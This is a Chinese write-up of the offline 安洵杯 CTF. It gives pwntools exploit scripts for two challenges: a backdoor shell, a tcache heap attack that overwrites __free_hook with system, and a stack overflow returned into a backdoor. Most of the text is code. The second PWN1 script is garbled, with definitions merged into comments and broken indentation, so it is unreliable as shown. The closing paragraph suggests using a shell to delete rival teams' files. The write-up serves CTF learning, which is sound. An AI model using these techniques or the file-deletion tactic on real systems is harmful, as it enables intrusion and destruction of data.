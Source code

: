 # 安洵杯线下赛--WP


# 安询杯线下赛——WP

###### Oh baby,don't you know we've all got hidden treasures.Do you remember  time?	——《Buried Treasure》Grant-Lee phillips

<!--more-->

## 前言

这应该算是我第一次正式的参加线下赛，赛场上的零食很好吃，盒饭还行，但是比不过师傅们的英姿。被打的很惨惨，原本一个组是有4个队员的，但是由于我们队有两个队员有别的事情，最后就只有两个人参加线下赛。在比赛时，我的虚拟机网络还出现了一些问题，没办法跑自动化脚本，就只能叫另一个师傅跑了，导致另一个师傅没有精力去看和修web题。不过这次比赛算是把PWN题AK了，并且pwn2打了全场最高峰。（题目已上传[github]()）

## 题解

### PWN1

题目是一个语言解释器，当输入excv(";sh")时将会获得shell。

````python
#Author: Nopnoping
from pwn import *

s      = lambda data               :sh.send(data)
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()

if args['REMOTE']:
	sh=remote()
else:
	sh=process("./pwn")

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'

def debug(command=''):
	context.terminal = ['tmux', 'splitw', '-h']
	gdb.attach(sh,command)

def run_code(code):
    lenth=len(code)
    ru("$")
    sl("1")
    ru(":")
    sl(str(lenth))
    ru(":")
    s(code)

def exp():
        #debug("b*0x0000555555556A68\nc")
        run_code("ev(\";sh\")")
        time.sleep(0.1)
        sl("cat flag")
	itr()

exp()

````

赛后才知道，原来这仅仅只是一个后门，程序还存在另外一个漏洞，在使用数组时存在数组越界。但由于逆向困难比较大，暂时还没有做出来，就先把WP贴出来，之后再细看。

````python
#!/usr/bin/env python3 
#-*- coding:utf-8 -*- 
from pwn import * 
import os 
r = lambda x : io.recv(x) 
ra = lambda : io.recvall() 
rl = lambda : io.recvline(keepends = True) 
ru = lambda x : io.recvuntil(x, drop = True) 
s = lambda x : io.send(x) 
sl = lambda x : io.sendline(x) 
sa = lambda x, y : io.sendafter(x, y) 
sla = lambda x, y : io.sendlineafter(x, y) 
ia = lambda : io.interactive() 
c = lambda : io.close() 
li = lambda x : log.info('\x1b[01;38;5;214m' + x + '\x1b[0m') 
context.log_level='debug' 
context.terminal = ['tmux', 'splitw', '-h'] 
elf_path = 'runner' 
libc_path = './libc.so.6' 
#libc_path = '/lib/x86_64-linux-gnu/libc.so.6' 
# remote server ip and port server_ip = "127.0.0.1" server_port = 20100
# if local debug LOCAL = 0 LIBC = 1 
#--------------------------func----------------------------- 
def db(): 
    if(LOCAL): 
        gdb.attach(io) 
def input_code(sz, d):
    sla('$', '1') 
    sla(':', str(sz)) 
    sa(':', d) 
#--------------------------exploit-------------------------- 
def exploit():
    li('exploit...') 
    p = 's0 = "' + 'A' * 0x40 + '";' # make number of tcache bin > 1 
    p += 's1 = "' + 'A' * 0x450 + '";'
	p += 's2 = "' + 'A' * 0x40 + '";' # avoid merge to top chunk and for tcache attack
    p += 's1 = "' + 'A' * 0x10 + '";' # free s1
    p += 'ps("AAAAAAAA");' # leak libc addr 
    p += 'paddin_to_key = "' + 'A' * 0x20 + '";'; # paddin arr1[18] to tcache bin key 
    p += 'ay arr1[1];' # for clean tcache bin key 
    p += 'paddin_to_fd = "' + 'A' * 0x20 + '";'; # ajust arr2[15] to tcache bin fd
    p += 'paddin_to_fd_2 = "' + 'A' * 0x10 + '";'; # ajust arr2[15] to tcache bin fd
    p += 'ay arr2[1];' # for modify tcache bin fd 
    p += 's0 = "free";' # free as a tcache bin
    p += 's2 = "free";' # free as a tcache bin 
    p += 'n = 0; in(n);' # input free_hook addr 
    p += 'arr1[18] = 256;' # clean tcache bin key 
    p += 'arr2[15] = n;'
    p += 'ay align[1];' # malloc first tcache bin 
    p += 'ay target[1];' # malloc to __free_hook
    p += 'in(n);' # input system addr
    p += 'target[0] = n;'
    p += 'sh = "/bin/sh";' 
    #p += 'in(n);' # pause 
    p += 'sh = "free";' 
    input_code(len(p), p) 
    leak = u64(ru('\x7f')[-5:] + b'\x7f\x00\x00') 
    libc_base = leak - libc.sym['__malloc_hook'] - 0x10 - 1120 
    free_hook = libc_base + libc.sym['__free_hook'] 
    system = libc_base + libc.sym['system'] 
    li('leak: ' + hex(leak)) 
    li('libc_base: ' + hex(libc_base)) 
    p = str(free_hook - 0x28)
    p = p.ljust(0x20, '\x00') 
    s(p)
    p = str(system) 
    p = p.ljust(0x20, '\x00') 
    s(p) 
def finish(): 
    ia() 
    c() 
    #--------------------------main-----------------------------
if __name__ == '__main__': 
    if LOCAL: 
        elf = ELF(elf_path) 
    	if LIBC:
        	libc = ELF(libc_path) 
       	 	io = elf.process(env = {"LD_PRELOAD" : libc_path} ) 
    	else:
        	libc = elf.libc
        	io = elf.process() 
    else:elf = ELF(elf_path) 
            io = remote(server_ip, server_port)
          if LIBC:
            libc = ELF(libc_path) 
    exploit() 
    finish()
````

### PWN2

题目在第二次输入时存在栈溢出，刚好可以覆盖返回地址。留了一个后门函数，可以读出flag。

````python
#Author: Nopnoping
from pwn import *

s      = lambda data               :sh.send(data)
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()

if args['REMOTE']:
	sh=remote("192.168.206.100",50880)
else:
	sh=process("./pwn")

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'

def debug(command=''):
	context.terminal = ['tmux', 'splitw', '-h']
	gdb.attach(sh,command)

def stack_attack(message):
    ru(":")
    sl("1")
    ru("3")
    sl("3")
    sl(message)

def exp():
        #debug("b*0x000000000040110A\nc")
        stack_attack("a"*0x48+p64(0x000000000400F36))
	itr()

exp()
````

题目很简单，但是在比赛的时候，没有去想怎么patch，那个时候只想着用lief去patch，而没有想着绕过执行条件。比如这道题，可以直接把jnz改成jmp即可。

![image-20201213193215436](https://i.loli.net/2020/12/17/P2UnBY81DIxazg7.png)

## 总结

线下赛的题目相对线上赛来说漏洞没有那么难利用，但是逆向的难度比线上难不少，发现难度比较高。所以线下赛发现漏洞得从攻击面来分析，不能像线上赛的题目一样，直接逆向整个程序。对于CTF来说，攻击面就是输入的数据，是否会溢出，使用的堆是否存在UAF等。这次赛前没有把自动化攻击脚本准备好，导致在比赛时，花了太多的时间在测试自动化脚本上，下次线下赛的时候，一定得把这些东西给提前准备好。还有一个有趣的姿势，由于PWN1可以直接获得shell，那么可以将别人的文件给删除，这样别的队伍每轮check时就会扣分。
